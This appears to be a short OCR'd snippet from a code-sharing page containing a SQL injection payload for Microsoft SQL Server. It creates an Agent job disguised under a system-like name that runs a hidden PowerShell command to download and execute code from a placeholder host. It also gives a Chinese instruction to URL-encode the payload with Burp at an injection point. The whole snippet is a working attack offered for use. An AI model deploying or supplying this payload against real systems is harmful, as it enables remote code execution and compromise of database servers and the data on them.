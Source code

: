 	USE msdb; EXEC dbo.sp_add_job @job_name = N'syspolicy_purge_now' ; EXEC sp_add_jobstep @job_name = N'syspolicy_purge_now', @step_name = N'syspolicy_purge_step1', @subsystem = N'PowerShell', @command = N'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://IP_OR_HOSTNAME/file''))"', @retry_attempts = 1, @retry_interval = 5 ;EXEC dbo.sp_add_jobserver @job_name = N'syspolicy_purge_now '; EXEC dbo.sp_start_job N'syspolicy_purge_now ';
	使用在注入点处，使用burp进行url编码，编码后前面加%20(空格URL编码)
